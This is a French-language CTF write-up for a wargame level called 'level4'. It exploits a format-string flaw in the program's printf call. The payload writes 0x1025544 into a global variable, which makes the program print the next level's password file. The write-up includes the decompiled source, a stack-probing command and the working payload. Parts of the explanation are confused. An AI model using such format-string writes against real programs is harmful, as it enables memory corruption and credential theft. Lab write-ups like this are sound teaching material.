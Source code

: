 ### README - Exploitation du programme `level4`

## Introduction

Nous avons un exécutable `level4` avec les options suivantes :

```bash
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level4/level4
```

### Code source décompilé

Voici le code source décompilé du programme `level4` :

```c
void p(char *param_1) {
  printf(param_1);
  return;
}

void n(void) {
  char local_20c[520];
  
  fgets(local_20c, 0x200, stdin);
  p(local_20c);
  if (m == 0x1025544) {
    system("/bin/cat /home/user/level5/.pass");
  }
  return;
}

void main(void) {
  n();
  return;
}
```

### Analyse de la vulnérabilité

La fonction `p` utilise `printf` avec un argument utilisateur sans spécificateur de format, ce qui est vulnérable à une attaque par chaîne de format. La condition pour exécuter la commande `system` est que la variable `m` soit égale à `0x1025544`.

## Voici une explication simplifiée de ce que cela pourrait représenter :

%16930112d : Cela pourrait être une spécification de format utilisée pour formater un entier (d pour "decimal") avec une largeur spécifique de 16930112 caractères. Dans un contexte de formatage de chaîne en C, cela pourrait potentiellement causer des comportements inattendus, comme des dépassements de tampon.

%12$n : Cela indique que le 12e argument passé à la fonction de formatage (comme printf) devrait être interprété comme une adresse où écrire un nombre. C'est une technique couramment utilisée dans les attaques de type format string, où un attaquant essaie de manipuler directement la mémoire du programme.

= 0x1025544 : Cela pourrait représenter l'adresse en mémoire ou une valeur hexadécimale attendue ou générée par cette chaîne de formatage.



### Identification de la position de l'argument

Pour exploiter la vulnérabilité, nous devons trouver la position de notre chaîne injectée dans les arguments de `printf`.

1. **Utilisation d'une chaîne de format exploratoire pour afficher les valeurs sur la pile** :

   ```bash
   python -c 'print "AAAA" + " %x" * 20' | ./level4
   ```

2. **Analyse de la sortie** :

   ```
   AAAA b7ff26b0 bffff794 b7fd0ff4 0 0 bffff758 804848d bffff550 200 b7fd1ac0 b7ff37d0 41414141 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825
   ```

   Nous voyons `0x41414141` (qui représente "AAAA" en ASCII) à la 12ème position dans la sortie. Cela signifie que notre chaîne injectée est le 12ème argument de `printf`.



#### a. Exploitation par constructions du payload

```bash
(python -c 'print("\x10\x98\x04\x08" + "%16930112d%12$n")'; cat -) | ./level4
```

### Conclusion

En utilisant cette approche, nous avons exploité la vulnérabilité de chaîne de format pour modifier la variable `m` et déclencher la condition qui exécute la commande système pour afficher le contenu de `/home/user/level5/.pass`.

### Code source décompilé pour explication

Voici à nouveau le code source décompilé pour une explication plus claire :

```c
void p(char *param_1) {
  printf(param_1);
  return;
}

void n(void) {
  char local_20c[520];
  
  fgets(local_20c, 0x200, stdin);
  p(local_20c);
  if (m == 0x1025544) {
    system("/bin/cat /home/user/level5/.pass");
  }
  return;
}

void main(void) {
  n();
  return;
}
```

### Explication

- **`fgets`** : Lit l'entrée utilisateur dans un buffer.
- **`printf`** : Affiche le buffer sans spécificateur de format, rendant le programme vulnérable aux attaques de chaîne de format.
- **Condition sur `m`** : Si `m` vaut `0x1025544`, le programme exécute `system("/bin/cat /home/user/level5/.pass")`.

En utilisant la vulnérabilité de chaîne de format, nous avons écrit `0x1025544` à l'adresse de `m` pour satisfaire cette condition et obtenir le mot de passe pour le niveau suivant.
